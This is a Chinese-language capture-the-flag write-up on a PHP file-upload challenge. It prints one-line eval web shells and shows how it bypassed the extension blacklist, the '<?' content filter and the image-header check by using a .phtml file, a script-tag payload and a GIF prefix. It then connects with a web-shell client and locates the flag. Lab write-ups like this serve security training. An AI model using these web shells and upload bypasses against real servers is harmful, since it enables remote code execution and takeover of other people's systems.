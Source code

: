 ```yaml
---
Author: Coder-LYQ
Date: 2020-12-24
---
```


## 思路

1. 上传最基本的一句话木马，

​	test.php   `<?php @eval($_POST('test'))?>`

查看返回结果显示Not image，说明后端对文件后缀名有检查。

<img src="images/image-20201224154534162.png" alt="image-20201224154534162" style="zoom: 50%;" />

将该后缀改为jpg，又会显示文件内容检查出<?。说明后端对文件内容有检查，不能php脚本，同时有可能后端会检查图片文件头，所以在构造的木马最前面加上GIF。

<img src="images/image-20201224153758063.png" alt="image-20201224153758063" style="zoom: 80%;" />

经测试后，将上传文件改为test.phtml  ，即可上传成功。

 `GIF  <script language="php">eval($_POST['a']);</script>`

![image-20201224154147597](images/image-20201224154147597.png)

2. 此时文件已经成功上传到服务器，然后就需要找文件上传到哪个目录，一般是upload目录，经测试本题也是。所以就可以利用蚁剑/菜刀连接上传的test.phtml。

   <img src="images/image-20201224154831469.png" alt="image-20201224154831469" style="zoom: 80%;" />

3. 连接上服务器之后，即可在根目录下找到flag文件 。

<img src="images/image-20201224154954542.png" alt="image-20201224154954542" style="zoom:50%;" />![image-20201224155715085](images/image-20201224155715085.png)

<img src="images/image-20201224155715085.png" alt="image-20201224155715085" style="zoom: 80%;" />

​	有比较多的题目都是直接在根目录下就可以找到flag，但适用性更广的方法即是在蚁剑中打开终端，利用**find命令**搜索flag文件，`find / -name flag`，然后利用cat获得flag内容。

## 总结

- 本题在后端禁止的上传文件特征主要为：
  - 后缀名为php（黑名单）
  - 文件内容含有<?
  - 文件没有图片文件的特征（文件头）

- 因此相应的绕过方法为：
  - 使用其他可以在php中执行的文件后缀（phtml）
  - 脚本采用`<script language="php">eval($_POST['a']);</script>`
  - 文件头加上GIF


